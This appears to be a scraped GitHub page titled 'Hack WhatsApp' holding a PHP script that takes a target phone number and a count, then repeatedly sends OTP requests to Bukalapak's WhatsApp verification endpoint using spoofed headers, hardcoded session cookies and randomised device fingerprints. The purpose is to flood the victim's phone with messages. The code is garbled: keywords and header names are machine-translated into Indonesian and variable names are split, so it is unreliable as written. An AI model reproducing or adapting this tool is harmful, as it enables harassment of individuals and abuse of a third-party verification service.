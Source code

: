 # hackwa
Hack WhatsApp 
<?php
echo " HAK CIPTA : TIM SGB \n\n";
echo " Nomor Target? \n Masukan : ";
$ nomer = trim(fgets( STDIN ));
if (strlen( $ nomer )== 11 ){
	$ nomer = str_replace(" 0 "," 62 ". $ nomer );
} elseif (strlen( $ nomer )> 12 ){
	$ nomer = str_replace(" 62 "," 0 ", $ nomer );
}
echo " Target: $ nomer (y/n) ";
$ cek = trim(fgets( STDIN ));
if ( $ cek = " n ") exit(" Berhenti! \n");
echo " Jumlah? \n Masukan : ";
$ jumlah = trim(fgets( STDIN ));
for( $ a = 0 ; $ a < $ jumlah ; $ a ++) {
	$ rand1 = md5(rand( 12345678 , 98765432 ));
	$ rand2 = md5(rand( 12345678 , 98765432 ));
	$ rand = array ( $ rand1 , $ rand2 );
	$ rand3 = md5( $ rand [rand( 1 , 2 )]);
	$ config [ 'headers' ] = meledak("\n", " Host: m.bukalapak.com
Koneksi: tetap hidup
Konten-Panjang: 134
Asal: https://m.bukalapak.com
X-CSRF-Token: uYUfi93g92mZboBVB4UMwYInorBNOgyYEAbPUTikHht+xseF8BFUgg9qSgQWA9MRy7eL8G/SnbYUGg0JRM1fjw==
Agen-Pengguna: Mozilla/5.0 (Linux; Android 7.1.2; Redmi 4X Build/N2G47H) AppleWebKit/537.36 (KHTML, seperti Gecko) Chrome/68.0.3440.91 Mobile Safari/537.36
Content-Type: application/x-www-form-urlencoded; rangkaian karakter = UTF-8
Menerima: */*
X-Diminta-Dengan: XMLHttpRequest
Simpan-Data: aktif
Referer: https://m.bukalapak.com/register?from=home_mobile
Terima-Encoding: gzip, deflate, br
Terima-Bahasa: en-US,en;q=0.9,id;q=0.8
Kuki: identitas= ". $ rand1 ." ; browser_id= ". $ rand2 ."; _ga=GA1.2.1024758930.1531960985; _vwo_uuid_v2=DE8E70E7E9A8960F05F20FE0ACE87643B|378e4a2f30c36053c1cb833e89ecbc2e; _gid=GA1.2.622427606.1533988422; scs=%7B%22t%22%3A1%7D; spUID=15339884253603c43b2de12.c5b45553; session_id=e95e7511997432af179935abfce90320; __auc=3eed305416528d5f584187b45b2; G_ENABLED_IDPS=google; track_register=true; affiliate_landing_visit=true; mp_51467a440ff602e0c13d513c36387ea8_mixpanel=%7B%22distinct_id%22%3A%20%22164affd88ae1d-0791dbbd558a18-1f20130c-38400-164affd88aff4%22%2C%22utm_source%22%3A%20%22hasoffers-1851%22%2C%22utm_medium%22%3A%20%22affiliate%22%2C%22utm_campaign%22%3A%20%2215%22%2C%22%24initial_referrer%22%3A%20%22%24direct%22%2C%22%24initial_referring_domain%22%3A%20%22%24direct%22%7D; ins-gaSSId=cdd66ffd-18ce-a176-a3c3-26f0ac9ec000_1534027025; lskjfewjrh34ghj23brjh234=elBsSkNBb3VKS3hzZSttTnNKTm5VNk1pWmtzV1A1YldKRm1majAzRFdsSUJtcDJJV0psL0pnOFlBamtJU1NBa1Y2czlQdjZrNlFURDNiRmZqQmNRRXRyeWRTbGV5QUdpQnZjV3JocEc3ak9QeHpWSlpRNTE4eFgzR2FieDVnc2dWaUVoZzVzMEJlMVZwM2NKWk1LaXVwQTZuOXBVR01TUUJ4ejc4MW5MTU5taGYwZ2M0bFdwM05KYy9IcTh3bThsd3dzbSt4bHd4WG9NSklrcHJtT0dHUURURVQ5YVoyb0hLQ3dyUC9NZ2V6UUNFYmVGbE84REtqOHZlKzBZUGtiRS0tV3pMamNPNDhKT1FoZ202Q1BkNUJ5dz09--5a445aefe0c06b736c22e9f359ee3b7273058175; insdrSV=32; _td=7e03facb-a77c-4ce7-8b83-2427781c78c7");
	global  $ konfigurasi ;
	$ ar = http_build_query( larik (
				'fitur' => 'pendaftaran_telepon' ,
				'feature_tag' => '' ,
				'manual_phone' => $ nomer ,
				'device_fingerprint' => $ rand3 ,
				'saluran' => 'WhatsApp'
                             )
                           );
	$ ch = curl_init();
	curl_setopt( $ ch , CURLOPT_URL , " https://m.bukalapak.com/trusted_devices/otp_request ");
	curl_setopt( $ ch , CURLOPT_SSL_VERIFYPEER , salah );
	curl_setopt( $ ch , CURLOPT_FOLLOWLOCATION , benar );
	curl_setopt( $ ch , CURLOPT_RETURNTRANSFER , benar );
	curl_setopt( $ ch , CURLOPT_HEADER , salah );
	curl_setopt( $ ch , CURLOPT_HTTPHEADER , $ config [ 'headers' ]);
	curl_setopt( $ ch , CURLOPT_POST , 1 );
	curl_setopt( $ ch , CURLOPT_POSTFIELDS , $ ar );
	$ asw = curl_exec( $ ch );
	curl_close( $ ch );
	cetak $ a . $ nomer ." [Mengirim] \n";
}
